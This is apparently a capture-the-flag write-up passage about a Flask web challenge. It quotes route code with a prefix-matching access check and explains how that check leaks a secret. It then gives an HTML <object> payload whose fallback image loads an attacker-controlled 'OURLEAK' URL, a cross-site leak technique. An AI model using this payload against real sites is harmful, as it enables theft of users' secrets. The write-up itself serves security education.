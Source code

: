 ```js
def guessAccess():
   if not request.args.get('access_code'):
       return make_response("<p>Do you understand what is guess?</p>", 404)
   access_code = unquote(request.args.get('access_code'))
   if str(HIDDEN_INFO) == access_code:
       flag = os.getenv("FLAG") or "ITSEC{FAKE_FLAG}"
       return make_response(f"<h1>{flag}</h1>", 200)
   else:
       return make_response("<p>Nope Sar, dat's not da access code</p>", 404)

@app.route("/hidden-access", methods=["GET"])
@auth_required
def hiddenAccess():
   if request.user['role'] == 0 or not request.args.get('access_code'):
       return make_response("<p>Your access is nuh-uh</p>", 404)
   access_code = unquote(request.args.get('access_code'))
   if HIDDEN_INFO.startswith(access_code):
       return make_response("<p>Higher up will meet you soon</p>", 200)
   return make_response("<p>You'll get but nothing here</p>", 404)
```

Guess access no need to be role = 1 but the access code must be equal to HIDDEN_INFO
But hidden access need to be role and the access_code only need to be start with which means if HIDDEN_INFO = “abcdefg” if we specify “a” into access_code it will return 200 
Lets take a look into HTML Standard reference [https://html.spec.whatwg.org/multipage/iframe-embed-object.html](https://html.spec.whatwg.org/multipage/iframe-embed-object.html)
![alt text](/assets/img/obj.png)

Using object element 
```html
<object
 type="image/png"
 data="/hidden-access?access_code=a"
 width="250"
 height="200">
 <img src="OURLEAK" loading="lazy"> <!-- FALLBACK -->
</object>
```